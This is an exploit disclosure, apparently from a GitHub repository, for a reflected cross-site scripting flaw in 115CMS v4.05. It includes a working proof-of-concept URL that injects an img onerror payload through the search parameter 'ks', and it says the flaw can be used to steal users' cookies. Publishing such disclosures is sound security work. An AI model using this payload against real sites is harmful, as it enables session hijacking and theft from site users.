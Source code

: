 ## Information

```c
Exploit Title:115CMS-v4.05-Cross Site Scripting(XSS)
Exploit date:25.05.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.115cms.com/
Affect Version:v4.05
Description:There is an XSS vulnerability in 115CMS-v4.05. Attackers can steal users' cookies and other information by constructing malicious request packets
```

## How to Exploit

After inserting XSS code into the search bar, querying can successfully trigger malicious XSS code

```
http://192.168.174.1/index.php/soso.html?ks=1%3Cimg%20src=x%20onerror=alert(1);%3E
```

![exploit](img/1.png)

## Reference

https://www.115cms.com/

